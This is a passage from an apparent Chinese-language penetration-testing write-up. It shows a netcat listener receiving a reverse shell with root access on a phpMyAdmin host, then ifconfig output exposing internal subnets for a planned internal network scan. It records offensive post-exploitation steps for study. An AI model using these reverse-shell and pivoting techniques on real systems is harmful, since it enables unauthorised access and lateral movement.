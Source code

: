 ![img](img/image_20240744-134414.png)

成功收到反弹的 shell

```shell
┌──(randark ㉿ kali)-[~/tools]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59516
whoami
root
```

## phpMyAdmin 内网扫描

查看网卡信息

```shell
da2bf9a19d9a:/tmp# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:0A:55:65:04
          inet addr:10.85.101.4  Bcast:10.85.101.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3001 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3083 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:30269681 (28.8 MiB)  TX bytes:11652578 (11.1 MiB)

eth1      Link encap:Ethernet  HWaddr 02:42:AC:38:66:04
          inet addr:172.56.102.4  Bcast:172.56.102.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3395 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:1164483 (1.1 MiB)  TX bytes:2514596 (2.3 MiB)

```